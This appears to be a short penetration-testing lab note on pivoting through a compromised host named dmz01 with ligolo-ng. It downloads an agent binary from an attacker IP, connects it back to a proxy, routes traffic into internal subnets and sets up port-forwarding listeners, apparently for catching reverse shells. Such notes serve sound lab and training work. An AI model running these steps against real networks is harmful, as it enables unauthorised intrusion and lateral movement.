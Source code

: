 - after connection  via ssh
```
curl http://10.10.14.201:8888/pivot/ligolo-ng/agent -o agent
chmod +x agent
```
- Run on attacker
```
sudo ip tuntap add user rohaki mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

- Run on dmz01 
```
./agent -connect 10.10.14.201:11601 -ignore-cert
```

- Run on attacker
```
sudo ip route add 172.16.0.0/24 dev ligolo
sudo ip route add 172.18.0.0/24 dev ligolo
sudo ip route add 172.16.8.0/24 dev ligolo
```
- set up listener
```
# Creates a listener on the machine where we're running the agent at port 1234  
# and redirects the traffic to port 4444 on our machine.

listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444
listener_add --addr 0.0.0.0:8888 --to 0.0.0.0:8888
listener_add --addr 0.0.0.0:9999 --to 0.0.0.0:9999
listener_add --addr 0.0.0.0:135 --to 0.0.0.0:135
```
